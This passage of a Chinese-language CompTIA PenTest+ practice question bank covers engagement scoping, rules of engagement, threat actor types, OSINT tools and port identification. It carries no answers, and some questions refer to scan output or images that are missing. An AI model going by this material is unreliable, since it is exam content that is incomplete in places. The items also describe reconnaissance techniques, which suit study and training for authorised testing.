2. 你的扫描导致网络主干上的交换机崩溃。
3. 你的笔记本电脑的 IP 地址被加入白名单。
4. 你的笔记本电脑的 IP 地址被加入黑名单。

### 124. 你在一家渗透测试咨询公司工作，正在与潜在客户谈判。客户建议你的组织与其组织签署 MSA。你应该怎么做？
1. 庆祝！这意味着客户希望与贵公司进行多次合作。
2. 通知你的雇主这笔交易可能不会达成。
3. 警告你的雇主潜在客户很可能会起诉贵公司。
4. 终止与客户的谈判。

### 125. 你正在为客户执行白盒渗透测试。你到达客户现场并将笔记本电脑插入一个开放的网络插孔。然而，你的笔记本电脑在客户网络上仅获得有限的连接。你运行 `ipconfig` 命令并注意到你的笔记本电脑已获得 IP 地址，但你只能看到网络上另一个主机。为什么会发生这种情况？
1. 你的笔记本电脑被客户的入侵防护系统（IPS）检测到并已被列入黑名单。
2. 客户的网络准入控制（NAC）系统已将你的笔记本电脑隔离到一个修复网络上。
3. 你的笔记本电脑被客户的入侵检测系统（IDS）检测到并已被列入黑名单。
4. 客户已在其网络交换机上启用 MAC 地址过滤。

### 126. 一支测试团队正在为一家组织进行评估。团队不关心评估广泛的漏洞范围。相反，他们正在进行一次由非常狭窄目标控制的协调攻击。参与规则规定他们可以使用物理、电子和社会利用手段来实现其目标。此场景中正在进行哪种类型的渗透测试？
1. 合规性渗透测试
2. 白盒渗透测试
3. 灰盒渗透测试
4. 黑盒渗透测试
5. 红队渗透测试

### 127. 你正在为客户进行黑盒渗透测试。客户在与其他租户共用的大楼中租赁办公空间。你坐在客户办公室前停车场的一辆车里，扫描从大楼发出的无线网络信号。你已识别出五个不同的 SSID。你不知道哪一个属于你的客户，所以你决定秘密连接到它们全部，然后运行一些简单扫描以确定哪一个是客户的无线网络。在此场景中你做错了什么？
1. 坐在客户办公室前的车里很可能会引起怀疑。
2. 灰盒测试在此场景中会更有效。
3. 从建筑物外部发出的无线信号通常太弱而无法使用。
4. 你正在攻击超出范围的无线网络。

### 128. 以下哪种威胁行为者通常拥有开发自己广泛利用所需的财务资源和技术专业知识？（选择两个。）
1. 有组织犯罪
2. 恶意内部人员
3. 脚本小子
4. 国家级行为者
5. 黑客行动主义者

### 129. 以下哪种威胁行为者利用组织合法授予他们的信任来破坏该组织的信息或系统？
1. 有组织犯罪
2. 恶意内部人员
3. 脚本小子
4. 国家级行为者
5. 黑客行动主义者

### 130. 以下哪种威胁行为者通常缺乏开发自己利用的技术专业知识，必须依赖从互联网下载的预写代码？
1. 有组织犯罪
2. 黑客行动主义者
3. 脚本小子
4. 国家级行为者

### 131. 你正在进行白盒渗透测试。测试范围规定测试将针对组织的交换机、路由器和防火墙进行。随着评估接近完成，客户要求你利用剩余时间也测试她的邮件服务器。此场景中发生了什么？
1. 横向移动
2. 目标为基础的测试
3. 范围蔓延
4. 目标导向测试

### 132. 你正在对一家处理信用卡的组织进行渗透测试。客户要求测试范围基于 PCI-DSS 标准。此场景中正在进行哪种类型的评估？
1. 合规性评估
2. 目标为基础的评估
3. 红队评估
4. 目标导向评估

### 133. 你正在与新客户谈判即将进行的渗透测试。在协议中，你包含了规定测试结果仅在测试执行时点有效的语言。为什么协议中会有这种语言？
1. 渗透测试可能会使关键系统离线。
2. 测试完成后修复网络可能需要一些时间。
3. 未来的技术变化可能会暴露当前未知的新漏洞。
4. 渗透测试将使用与真实攻击者相同的工具和技术。

### 134. 你正在与新客户谈判即将进行的渗透测试。在协议中，你包含了规定客户要求的范围和方法可能影响测试全面性的语言。为什么协议中会有这种语言？
1. 测试完成后修复网络可能需要一些时间。
2. 参与规则和使用的评估类型可能会阻止发现某些漏洞。
3. 渗透测试将使用与真实攻击者相同的工具和技术。
4. 参与规则和使用的评估类型应确保识别所有已知漏洞。

### 135. 你正在与新客户谈判即将进行的渗透测试。他们要求你对他们的网络进行“零知识”测试。你应该执行哪种类型的渗透测试？
1. 黑盒
2. 灰盒
3. 白盒
4. 合规性

### 136. 你正在与新客户谈判即将进行的渗透测试。他们要求你对他们的网络进行“部分知识”测试。你应该执行哪种类型的渗透测试？
1. 黑盒
2. 灰盒


# 渗透测试问题

3. 白盒
4. 基于目标

### 137. 您正在与新客户协商即将进行的渗透测试。他们要求您对他们的网络执行“完全知情”测试。您应该执行哪种类型的渗透测试？
1. 黑盒
2. 灰盒
3. 白盒
4. 基于目标

### 138. 您正在与新客户规划即将进行的白盒渗透测试。他们的网络使用 IPSec 进行网络访问控制（NAC）。您的渗透测试人员需要使用哪种技术才能访问由 NAC 保护的内部安全网络？
1. 证书固定
2. 会话劫持
3. 中间人攻击
4. 跨站脚本

### 139. 您在一家渗透测试公司工作。您已与客户规划即将进行的渗透测试。您已与首席信息官（CIO）合作确定评估范围，例如在范围内的系统和范围外的系统、使用的<|message|> 方法、允许的技术以及时间表。您已准备好最终的协议草案待签署。谁应该签署它？
1. 适当的签署授权人
2. IT 经理
3. 首席信息官
4. 任何帮助台工作人员都可以签署协议。

### 140. 您在一家渗透测试公司工作。您已与客户规划即将进行的渗透测试。在范围文档中，您包含警告用语，说明本次测试使用的<|message|> 方法和技术可能会使关键系统在一段时间内离线。您要求客户确认这是否可以接受。这是什么的一个例子？
1. 评估影响容忍度
2. 全面性免责声明
3. 时点免责声明
4. 完成评估的规则

### 141. 您正在为即将进行的渗透测试定义参与规则（ROE）。这将是一次白盒评估。您已规定目标在测试期间不得使用 shunning 或黑名单。您已规定目标必须向您提供对网络的内部访问权限、网络地图和身份验证凭据。您还规定由 SaaS 服务提供商提供的应用程序在测试期间将在范围内。您需要谁的书面授权才能执行此测试？（选择两项。）
1. 目标组织
2. 互联网名称与数字地址分配机构（ICANN）
3. 美国互联网号码注册管理机构（ARIN）
4. SaaS 服务提供商
5. 公共利益注册管理机构（PIR）

### 142. 您正在为即将进行的渗透测试定义参与规则（ROE）。这将是一次白盒评估。这将是一次内部测试。不得涉及第三方。以下哪些资源可被视为评估范围内？（选择两项。）
1. 邻近组织使用的无线网络
2. 他们用于存储加密密钥的密钥管理系统
3. 组织的互联网服务提供商（ISP）
4. 他们的亚马逊网络服务（AWS）内容分发系统
5. 他们的路由器配置

### 143. 您正在为即将进行的渗透测试定义参与规则（ROE）。这将是一次灰盒评估。这将是一次内部测试。在进行评估时，您可能会遇到哪些限制？（选择两项。）
1. 您将拥有有限的网络访问权限。
2. 您将受到内部 IT 人员的抵制。
3. 您将拥有有限的存储访问权限。
4. 您将不被允许进入组织的设施。
5. 您将不被允许在组织的网络基础设施设备（如服务器、路由器和交换机）上运行漏洞扫描。

### 144. 一名安全分析师收到即将进行的渗透测试范围的概要。此文档包含每个可以扫描的时间以及 IP 地址。哪份文档会包含此信息？
1. 业务影响分析（BIA）
2. 主服务协议（MSA）
3. 提案请求（RFP）
4. 参与规则（RoE）

### 145. 一名安全分析师计划使用黑盒渗透测试。这种策略将为测试人员提供以下哪一项？
1. 特权凭据
2. 网络图
3. 源代码
4. 什么都没有；他们必须自行发现。

### 146. 客户已请求外部网络渗透测试，但在渗透测试人员与客户之间的讨论中，客户不愿在测试期间将测试人员的源 IP 地址添加到其 IPS 白名单中。哪种论点最能描述为什么测试人员的源 IP 地址应列入客户的 IPS 白名单？
1. IPS 白名单规则需要定期更新以保持最新，以应对不断发展的漏洞和新发现的弱点。
2. 对第三方 IPS 系统的渗透测试通常需要额外的授权和文档，这可能会延迟时间敏感的测试。
3. 测试应侧重于通过所有在范围内的系统发现潜在的安全问题，而不仅仅是确定 IPS 等主动防御的有效性。
4. 白名单可防止对 IPS 和支持的日志监控系统造成可能的无意 DoS 攻击。

### 147. 一名安全分析师试图构建专门的 XML 文件以在测试期间测试 Windows 应用程序的解析函数的安全性。在开始测试应用程序之前，分析师应向客户请求以下哪一项？
1. 协议模糊测试工具
2. 特定应用程序的软件开发工具包（SDK）
3. 简单对象访问协议（SOAP）项目文件的示例
4. 表征状态转移（REST）应用程序编程接口（API）文档

### 148. 在规划参与时，以下哪一项是最重要的？（选择两项。）
1. 架构图
2. 公司政策
3. 目标/目的
4. 报告的存储时间
5. 影响容忍度

### 149. 以下哪项陈述会来自客户的公司政策？
1. 企业系统必须使用 MD5 哈希算法存储密码
2. 员工密码必须至少包含八个字符，其中一个为字母数字
3. 联系帮助台执行密码重置的电话号码
4. 为了访问企业资产，员工必须使用强密码

### 150. 您是一名性能测试人员，正在与客户讨论执行基于合规性的评估。哪一项是重要的关键考虑因素？
1. 任何额外费率
2. 任何公司政策
3. 行业类型
4. 影响容忍度

### 151. 您是一名渗透测试人员，正在与客户讨论在执行渗透测试时保持任何发现的保密性的重要性。在执行渗透测试时保持保密性为什么重要？
1. 发现是包含特权信息的法律文件。
2. 发现可以帮助攻击者入侵系统。
3. 发现通常包含公司知识产权。
4. 如果结果公开，可能会导致消费者不满。

### 152. 渗透测试人员目前正在测试中途，客户要求测试人员添加更多地址。以下哪一项定义了测试人员可以遵循的目标列表？
1. 最终用户许可协议
2. 主服务协议（MSA）
3. 参与规则（RoE）
4. 工作说明书（SOW）


### 153. 你正在计划设立一次安全评估。以下哪一项对评估预算有重大影响？
1. 合规要求
2. 安排时间
3. 范围界定
4. 目标风险

### 154. 一名渗透测试员被客户要求模仿一名最近被解雇的帮助台技术员。什么最能描述威胁行为者的能力？
1. 高级持续性威胁 (APT)
2. 黑客行动主义者
3. 有组织犯罪
4. 脚本小子

### 155. 渗透测试员应随时掌握客户的联系信息。以下哪些情况渗透测试员应立即向其客户报告？（选择三项。）
1. 报告任何关键发现。
2. 报告被破解的密码。
3. 报告无法利用的发现。
4. 报告入侵指标。
5. 报告最新发布的漏洞利用。
6. 报告变得无响应的服务器。

### 156. 一位客户最近来找你，担心有大量公司被远程攻击者入侵，这些攻击者正在寻找商业机密。什么最能描述会寻找商业机密的对手类型？
1. 高级持续性威胁 (APT) 行为者
2. 黑客行动主义团体
3. 内部威胁
4. 脚本小子

### 157. 你是一名渗透测试员，一家公司要求你执行一次 Web 应用程序渗透测试。该公司要求你发现任何漏洞。该公司现在来找你，询问你是否会审查额外的代码并检查防火墙设置的更新。客户要求你做什么？
1. 事后审查
2. 风险接受
3. 范围蔓延
4. 威胁预防

### 158. 一名渗透测试员正在准备进行 API 测试。在准备此次任务时，以下哪一项最有益？
1. Nikto
2. Swagger
3. Web 应用程序存档 (WAR)
4. W3AF

### 159. 洛克希德·马丁开发了该框架，该框架是情报驱动防御模型的一部分，用于识别和防止网络入侵活动。该模型确定对手必须完成的工作以实现其目标。该模型被称为网络杀伤链模型，由七个部分组成。以下哪一项是网络杀伤链的第一个阶段，当攻击者从组织外部从技术和非技术角度评估目标时？
1. 利用
2. 安装
3. 侦察
4. 武器化

### 160. 在网络杀伤链的哪个阶段，攻击者会窃取敏感信息，使用未经授权的计算资源进行拒绝服务攻击，或修改信息？
1. 行动目标阶段
2. 命令与控制阶段
3. 投递阶段
4. 探索阶段

### 161. 一名渗透测试员正在进行一项专门针对单个 Web 应用程序的渗透测试。测试员了解到 Web 服务器还包含目标位置其他服务器的密码列表。测试员通知了客户。客户随后要求测试员验证这些服务器。一旦测试员继续对其他服务器使用这些密码进行测试，就发生了什么？
1. 威胁狩猎
2. 枢转
3. 范围蔓延
4. 目标扩展

### 162. 你是一名渗透测试员。你正在查看的渗透测试类型并非旨在尽可能多地识别漏洞，而是集中于专门与获得特定系统或数据控制的目标相一致的漏洞。你正在查看运行哪种类型的评估？
1. 基于目标的评估
2. 基于合规的评估
3. 基于目标的评估
4. 红队评估

### 163. 你是一名渗透测试员，并被要求测试一个使用将主机与其公钥关联的身份验证方法的组织。该组织使用哪种类型的身份验证技术？
1. 证书固定
2. 自签名服务器认证
3. SSL 握手
4. X.509 绕过

### 164. 一名攻击者因对新通过的法律不满而攻击了政府机构。这是什么类型的威胁行为者？
1. 脚本小子
2. 黑客行动主义者
3. 有组织犯罪
4. 国家行为者

### 165. 你被要求对一个大型复杂的 IT 基础设施执行渗透测试。范围可能包括由云提供商托管的云网络上找到的内容。执行这种类型的测试需要什么？
1. 仅来自客户的授权
2. 第三方授权
3. 环境差异
4. 数据所有权

### 166. 你被要求为客户执行渗透测试。你需要一份用于保护客户数据和其他你可能遇到的信息的机密性的法律文件。这份法律文件叫什么？
1. 竞业禁止协议
2. 保密协议 (NDA)
3. 主服务协议 (MSA)
4. 工作说明书 (SOW)

### 167. 你被要求为客户执行渗透测试。你需要一份文件来设定两个组织之间的总体条款。这也将用于你计划设立支持协议时你组织之间的未来工作。这份文件叫什么？
1. 竞业禁止协议
2. 保密协议 (NDA)
3. 主服务协议 (MSA)
4. 工作说明书 (SOW)

### 168. 你是一名渗透测试员，正在进行现场渗透测试。在共享建筑物中现场工作时，进行无线评估时你需要了解什么范围界定要素？
1. 加密类型
2. 无线网络的频率
3. 任何预共享密钥
4. 服务集标识符 (SSIDs)

# 第二章
## 信息收集和漏洞识别

**本章涵盖的 PENTEST+ 考试主题包括：**

### 领域 2：信息收集和漏洞识别
*   2.1 给定一个场景，使用适当的技术进行信息收集。
    * 扫描
    * 枚举
        * 主机
        * 网络
        * 域
        * 用户
        * 组
        * 网络共享
        * 网页
        * 应用程序
        * 服务
        * 令牌
        * 社交网络站点
    * 数据包构造
    * 数据包检查
    * 指纹识别
    * 密码学
        * 证书检查
    * 窃听
        * RF 通信监控
        * 嗅探
            * 有线
            * 无线
    * 反编译
    * 调试
    * 开源情报收集
        * 研究来源
            * CERT
            * NIST
            * JPCERT
            * CAPEC
            * 完全公开
            * CVE
            * CWE

*   2.2 给定一个场景，执行漏洞扫描。
    * 凭证式与非凭证式
    * 扫描类型
        * 发现扫描
        * 完整扫描
        * 隐蔽扫描
        * 合规扫描
    * 容器安全
    * 应用程序扫描
        * 动态与静态分析
    * 漏洞扫描的考虑因素
        * 运行扫描的时间
        * 使用的协议
        * 网络拓扑
        * 带宽限制
        * 查询限流


### 脆弱系统/非传统资产

####  2.3 给定一个场景，分析漏洞扫描结果。
- 资产分类
- 裁定
  - 误报
- 漏洞优先级排序
- 常见主题
  - 漏洞
  - 观察结果
  - 缺乏最佳实践

####  2.4 解释利用信息为利用做准备的过程。
- 将漏洞映射到潜在利用
- 为渗透测试准备活动设定优先级
- 描述完成攻击的常见技术
  - 跨编译代码
  - 利用修改
  - 利用链
  - 概念验证开发（利用开发）
  - 社会工程学
  - 凭证暴力破解
  - 字典攻击
  - 彩虹表
  - 欺骗

####  2.5 解释与专用系统相关的弱点。
- ICS
- SCADA
- 移动
- IoT
- 嵌入式
- 销售点系统
- 生物识别
- 应用容器
- RTOS

## 渗透测试问题

1. 你被要求为一家通过在线销售进口摩托车和全地形车的规模中型组织进行黑盒渗透测试。在此评估的哪个阶段你可能会花费最多时间？
   1. 规划和范围界定
   2. 信息收集和漏洞识别
   3. 攻击和利用
   4. 报告和传达结果

2. 你正在为一家通过其在线商店销售进口摩托车和全地形车的规模中型组织进行黑盒渗透测试。你需要发现该组织域名的所有者。你的渗透测试工具包中应使用哪种工具？
   1. `nslookup`
   2. `whois`
   3. `Shodan`
   4. `Maltego`

3. 你正在为一家通过其在线商店销售进口服装的规模中型组织进行黑盒渗透测试。你需要发现与该组织域名关联的哪些 IP 地址。你的渗透测试工具包中应使用哪种工具？
   1. `nslookup`
   2. `whois`
   3. `theHarvester`
   4. 使用收集的档案对组织进行指纹识别（`FOCA`）

4. 你正在为一家通过其在线商店销售进口服装的规模中型组织进行黑盒渗透测试。你想查询搜索引擎和其他资源以发现电子邮件地址、员工姓名以及有关目标的其他详细信息。你的渗透测试工具包中应使用哪种工具？
   1. `nmap`
   2. `Shodan`
   3. `theHarvester`
   4. 使用收集的档案对组织进行指纹识别（`FOCA`）

5. 你正在为一家在美国批发进口电子设备的规模大型组织进行黑盒渗透测试。你需要使用开源情报（OSINT）发现有关该组织的任何信息。你可以使用渗透测试工具包中的哪种工具来做到这一点？
   1. `Censys`
   2. `whois`
   3. `recon-ng`
   4. `Shodan`
   5. 以上全部

6. 你正在为一家在美国批发进口电子设备的规模大型组织进行黑盒渗透测试。你需要探测组织的 Web 服务器 IP 地址，以查看与其关联的信息，例如其使用的 SSL 或 TLS 版本和密码套件。你可以使用渗透测试工具包中的哪种工具来做到这一点？
   1. `Censys`
   2. `nslookup`
   3. `Maltego`
   4. `Shodan`

7. 你正在为一家规模大型金融机构进行黑盒渗透测试。你想在互联网上搜索与该组织关联的任何文档（如 Microsoft Word 或 PowerPoint 文档），并分析每个文件的元数据以获取有用信息。你可以使用渗透测试工具包中的哪种工具来做到这一点？
   1. `Censys`
   2. `Shodan`
   3. `nmap`
   4. 使用收集的档案对组织进行指纹识别（`FOCA`）

8. 一名顾问受雇于一个组织进行黑盒渗透测试。她知道物联网（IoT）设备经常采用渗透测试人员可以利用的弱安全机制。她想发现目标组织是否部署了这些设备。她可以使用哪种实用程序来做到这一点？
   1. `Censys`
   2. `Shodan`
   3. `theHarvester`
   4. `Maltego`

9. 一名顾问受雇于一个组织进行黑盒渗透测试。她已使用多种工具收集有关目标的信息的 OSINT。她的努力非常成功。事实上，她收集了如此多的信息，以至于她很难将其组织成她可以有效使用的格式。她可以使用哪种工具来组织她收集的信息？
   1. `Censys`
   2. `Shodan`
   3. `theHarvester`
   4. `Maltego`

10. 一名顾问受雇于一个组织进行黑盒渗透测试。她想对目标组织的面向公众的 Web 服务器进行详细扫描，看看她能学到什么。她应该使用哪种实用程序来实现这一目标？
    1. `nmap`
    2. `Shodan`
    3. `whois`
    4. `Maltego`

11. 你受雇为客户进行黑盒渗透测试。你想使用 spear phishing 攻击来暴露组织关键员工使用的身份验证凭据。你可以使用哪些工具或技术来收集进行此攻击所需的信息？（选择两项。）
    1. 垃圾箱挖掘
    2. `theHarvester`
    3. `nmap` 扫描
    4. `Nessus` 扫描
    5. `Shodan`

12. 你受雇为客户进行黑盒渗透测试。你想使用 whaling 攻击来暴露组织领导层使用的身份验证凭据。你可以使用哪些信息来做到这一点？（选择两项。）
    1. `Nessus` 扫描
    2. 新闻稿
    3. `Censys` 探测
    4. `OpenVAS` 扫描
    5. 高管简介

13. 以下哪些可以被视为与渗透测试目标相关的 OSINT？（选择两项。）
    1. 社交媒体帖子
    2. `nmap` 扫描结果
    3. 员工社会安全号码
    4. 企业税务申报
    5. 高层领导的个人税务申报

14. 以下哪些可以被视为与渗透测试目标相关的 OSINT？（选择两项。）
    1. `Nessus` 扫描结果
    2. 渗透测试人员尾随进入组织设施获得的信息
    3. 来自组织 DNS 注册商的信息
    4. 组织网站上的招聘信息
    5. 来自不满员工收集的信息

15. 你处于黑盒渗透测试的信息收集阶段。你需要通过确定他们使用的网络基础设施类型来对目标组织进行足迹分析。哪些 OSINT 来源可能揭示这些信息？（选择两项。）
    1. 组织网站上的招聘信息
    2. 对内部网络的 `nmap` 扫描
    3. 对内部网络的 `Nessus` 扫描
    4. 渗透测试人员尾随进入组织设施获得的信息
    5. LinkedIn 上现任员工的简历

16. 你处于黑盒渗透测试的信息收集阶段。你可以使用哪些工具通过 OSINT 对目标组织进行足迹分析？（选择两项。）
    1. `aircrack-ng`
    2. `whois`
    3. `recon-ng`
    4. `Kismet`
    5. `WiFight`

17. 请考虑此处显示的命令输出：

收集这些信息使用了哪种 OSINT 工具？
1. `whois`


2. `nslookup`
3. `nmap`
4. `ifconfig`
5. `host`

## 18. 查看此处显示的命令输出：

使用了哪种 OSINT 工具来收集这些信息？
1. `whois`
2. `nslookup`
3. `Nessus`
4. `recon-ng`
5. `host`

## 19. 查看此处显示的命令输出：

使用了哪种 OSINT 工具来收集这些信息？
1. `whois`
2. `nslookup`
3. `nmap`
4. `recon-ng`
5. `host`

## 20. 你正在作为黑盒渗透测试的一部分进行侦察。你对目标组织的一个面向公众的服务器运行漏洞扫描，发现端口 25 是开放的。这表明什么？
1. 它是 DNS 服务器。
2. 它是 SMTP 服务器。
3. 它是 FTP 服务器。
4. 它是 SMB 文件服务器。

## 21. 你正在作为灰盒渗透测试的一部分进行侦察。你对目标组织的一个内部服务器运行漏洞扫描，发现端口 445 是开放的。这表明什么？
1. 它是 DNS 服务器。
2. 它是 HTTPS 服务器。
3. 它是 SSH 服务器。
4. 它是 SMB 文件服务器。

## 22. 你正在作为灰盒渗透测试的一部分进行侦察。你对目标组织的一个服务器运行漏洞扫描，发现端口 23 是开放的。这表明什么？
1. 它是 DNS 服务器。
2. 它是 SSH 服务器。
3. 它是 Telnet 服务器。
4. 它是 FTP 服务器。

## 23. 你正在作为黑盒渗透测试的一部分进行侦察。你对目标组织的一个面向公众的服务器运行漏洞扫描，发现端口 20 是开放的。这表明什么？
1. 它是 DNS 服务器。
2. 它是 FTP 服务器。
3. 它是 SSH 服务器。
4. 它是 TFTP 服务器。

## 24. 你正在作为灰盒渗透测试的一部分进行侦察。你对目标组织的一个服务器运行漏洞扫描，发现端口 69 是开放的。这表明什么？
1. 它是 DNS 服务器。
2. 它是域控制器。
3. 它是 SSH 服务器。
4. 它是 TFTP 服务器。

## 25. 你正在作为灰盒渗透测试的一部分进行侦察。你对目标组织的一个服务器运行漏洞扫描，发现多个端口是开放的，包括 88、135、139、389 和 464。这表明什么？
1. 它是域控制器。
2. 它是 POP3 邮件服务器。
3. 它是 SSH 服务器。
4. 它是 IMAP 邮件服务器。

## 26. 你正在作为灰盒渗透测试的一部分进行侦察。你对目标组织的一个服务器运行漏洞扫描，发现端口 143 是开放的。这表明什么？
1. 它是 LDAP 服务器。
2. 它是 POP3 邮件服务器。
3. 它是 SSH 服务器。
4. 它是 IMAP 邮件服务器。

## 27. 你正在作为灰盒渗透测试的一部分进行侦察。你对目标组织的一个服务器运行漏洞扫描，发现端口 22 是开放的。这表明什么？
1. 它是 LDAP 服务器。
2. 它是 POP3 邮件服务器。
3. 它是 SSH 服务器。
4. 它是 HTTP 服务器。

## 28. 你正在作为灰盒渗透测试的一部分进行侦察。你对目标组织的一个服务器运行漏洞扫描，发现端口 80 和 443 是开放的。这表明什么？
1. 它是 LDAP 服务器。
2. 它是 Kerberos 身份验证服务器。
3. 它是 POP3 邮件服务器。
4. 它是 HTTP 服务器。

## 29. 你正在作为灰盒渗透测试的一部分进行侦察。你对目标组织的一个服务器运行漏洞扫描，发现端口 389 和 636 是开放的。这表明什么？
1. 它是 LDAP 服务器。
2. 它是 Kerberos 身份验证服务器。
3. 它是全局编录服务器。
4. 它是 DNS 服务器。

## 30. 你正在作为灰盒渗透测试的一部分进行侦察。你对目标组织的一个服务器运行漏洞扫描，发现端口 53 是开放的。这表明什么？
1. 它是 NTP 服务器。
2. 它是 Kerberos 身份验证服务器。
3. 它是全局编录服务器。
4. 它是 DNS 服务器。

## 31. 在黑盒渗透测试的发现阶段，你运行 `traceroute` 命令以发现经由互联网到达目标组织 Web 服务器的路由。结果显示如下：

第 12、13 和 14 行的 `***` 字符表示什么？
1. 相关设备已配置为不响应 ping。
2. 相关设备的域名无法由 DNS 服务器解析。
3. 相关设备已关闭。
4. 你的计算机已被路由中的这些设备列入黑名单。

## 32. 在黑盒渗透测试的发现阶段，你使用 centralops.net 网站对目标组织的域名进行侦察。部分结果显示如下：

该域名有哪些面向公众的服务可用？（选择两项。）
1. FTP
2. 安全邮件
3. 不安全 Web 服务器
4. 安全 Web 服务器
5. 不安全邮件
6. 安全 Shell

## 33. 在黑盒渗透测试的发现阶段，你使用 centralops.net 网站对目标组织的域名进行侦察。部分结果显示如下：

以下哪些是正确的？（选择两项。）
1. 组织的证书于 2017 年过期。
2. 使用 SHA1 对组织的证书进行签名。
3. 组织使用 Apache Web 服务器。
4. 使用 SHA256 对组织的证书进行签名。
5. 组织的 Web 服务器运行在 Windows 上。

## 34. 在黑盒渗透测试的发现阶段，你已识别出一个怀疑属于目标组织高管的电子邮件地址。你使用 centralops.net 网站分析该电子邮件地址。结果显示如下：

从输出中可以了解到什么？
1. 这是一个有效的电子邮件地址。
2. 这是一个无效的电子邮件地址。
3. 该电子邮件地址属于相关高管。
4. 该电子邮件地址属于帮助台员工。

## 35. 在黑盒渗透测试的发现阶段，你已识别出一个怀疑属于目标组织高管的电子邮件地址。你使用 centralops.net 网站分析该电子邮件地址。结果显示如下：

从输出中可以了解到什么？
1. 组织的邮件服务器的 IP 地址为 208.101.20.81。
2. 组织的电子邮件命名约定为 `first_initial`+`lastname`@`company_name`.com。
3. 组织的电子邮件命名约定为 `first_initial`.`lastname`@`company_name`.com。
4. 组织的邮件服务器不响应 `HELO` 命令。

## 36. 在黑盒渗透测试的发现阶段，你已识别出一个怀疑属于目标组织高管的电子邮件地址。你使用 centralops.net 网站分析该电子邮件地址。结果显示如下：

从输出中可以了解到什么？
1. 组织的邮件服务器的 IP 地址为 208.101.20.106。
2. 组织的邮件服务器位于邮件过滤设备之后。
3. 组织的邮件服务器运行在 Windows 上，并且其防火墙中开放了端口 80 和 443。


### 4. 组织的电子邮件服务器响应 `HELO` 命令。

### 37. 在白盒渗透测试期间，你使用 `nmap` 工具扫描整个子网以查找主机。扫描完成后，你需要枚举找到的系统。对于每个发现的设备，你需要识别哪些信息？（选择两项。）
1. 已安装的服务
2. 执行扫描时使用的 `nmap` 版本
3. 子网上的唯一用户数量
4. 已安装的操作系统版本
5. 用于创建物理网络的以太网电缆等级

### 38. 在灰盒渗透测试的发现阶段，你使用 `Zenmap` 工具枚举并指纹识别目标组织其中一个子网上的设备。其中一台设备特别引起了你的注意。输出显示如下：

从这些信息中你能了解到该设备的什么情况？
1. 它是一台 Windows 服务器。
2. 它是一台虚拟机。
3. 它是一台路由器。
4. 它是无线网络的接入点。

### 39. 在灰盒渗透测试的发现阶段，你使用 `Zenmap` 工具枚举并指纹识别目标组织其中一个子网上的设备。其中一台设备特别引起了你的注意。输出显示如下：

使用这些信息，你能了解到该设备的什么情况？
1. 该设备处于维护模式。
2. 它正在运行 HTTP 服务。
3. 它已加入 Windows 域。
4. 它由无线控制器管理。

### 40. 在灰盒渗透测试的发现阶段，你使用 `Zenmap` 工具枚举并指纹识别目标组织其中一个子网上的设备。其中一台设备特别引起了你的注意。输出显示如下：

使用这些信息，你能了解到该设备的什么情况？
1. 该设备的默认管理员密码
2. 已连接的无线客户端数量
3. 该设备控制器的 IP 地址
